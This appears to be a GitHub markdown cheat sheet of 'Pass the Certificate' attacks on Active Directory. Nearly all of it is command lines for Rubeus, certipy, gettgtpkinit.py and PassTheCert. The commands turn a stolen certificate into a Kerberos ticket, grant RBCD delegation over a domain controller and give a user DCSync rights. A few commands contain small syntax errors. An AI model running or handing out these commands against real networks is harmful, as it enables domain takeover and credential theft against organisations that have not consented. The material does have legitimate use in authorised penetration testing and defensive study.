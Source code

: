 # Pass the Certificate

## Tools: gettgtpkinit.py , Rubeus , certipy

### Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"

# PKINIT

#### 1) Rubeus

 - Rubeus.exe asktgt /user:"USERNAME" /certificate:"PFX_FILE" [/password:"CERTIFICATE_PASSWORD] /domain:"FQDN_DOMAIN" /dc:"DC" /show

#### 2) certipy

 - certipy auth -pfx CRT_FILE -dc-ip DC_IP

#### 3) gettgtpkinit.py

 - gettgtpkinit.py -cert-pfx "PFX_FILE" [cert-pfx-pass "CERT_PASSWORD"] "FQDN_DOMAIN/USER "TGT_CCACHE_FILE"

### These 3 techniques can be performed for a Pass-the-Ticket attack

# Schannel (Secure Channel)

#### 1) certipy

 - certipy auth -pfx CRT_FILE -ldap-shell

 - add_computer

 - set_rbcd

#### 2) PassTheCert.py https://github.com/AlmondOffSec/PassTheCert.git

### Extract the .key and .crt files from the .pfx file

 - openssl pkcs12 -in USER_CERT.pfx -nocerts -out USER.key (Extract the .key file. Leave import password blank and put something like 1234 for PEM pass.)

 - openssl pkcs12 -in USER_CERT.pfx -clcerts -nokeys -out USER.crt (Extract the .crt file)

 - python3 passthecert.py -dc-ip DC_IP -crt USER.crt -key USER.key -domain DOMAIN.LOCAL -port 636 -action write_rbcd -delegate-to 'DOMAIN$' -delegate-from 'OUR_COMP$' (Authenticate against LDAPS using Schannel. In this example, we give the computer account we control RBCD, AKA delegation rights over the DC. Enter the PEM phrase we used when extracting the .key file earlier)

### With this technique, we can now perform an RBCD attack

# Pass-the-Certificate


## Windows

#### 1) Information about a cert file

 - certutil -v -dump admin.pfx

#### 2) From a base64 PFX

 - Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

#### 3) Grant DCSync rights to a user

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --elevate

#### 4) To restore

 - ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target DOMAIN\USER --restore

### PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

 - openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"

### Certipy uses DER encryption. To generate a PFX for Rubeus, openssl can be used.

 - openssl rsa -inform DER -in key.key -out key-pem.key

 - openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM

 - openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx


## Linux

#### 1) Base64-encoded PFX certificate (string) (password can be set)

 - gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) PEM certificate (file) + PEM private key (file)

 - gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 3) PFX certificate (file) + password (string, optionnal)

 - gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 4) Using Certipy

 - certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'

 - certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"

### The ticket obtained can then be used to

#### 1) Authenticate with pass-the-cache

#### 2) Conduct an UnPAC-the-hash attack. This can be done with getnthash.py from PKINITtools.

#### 3) Obtain access to the account's SPN with an S4U2Self. This can be done with gets4uticket.py from PKINITtools.

## Alternate Method: PassTheCert https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py

#### 1) Extract key and cert from the pfx

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"

 - certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

#### 2) Elevate a user for DCSync with passthecert.py

 - passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
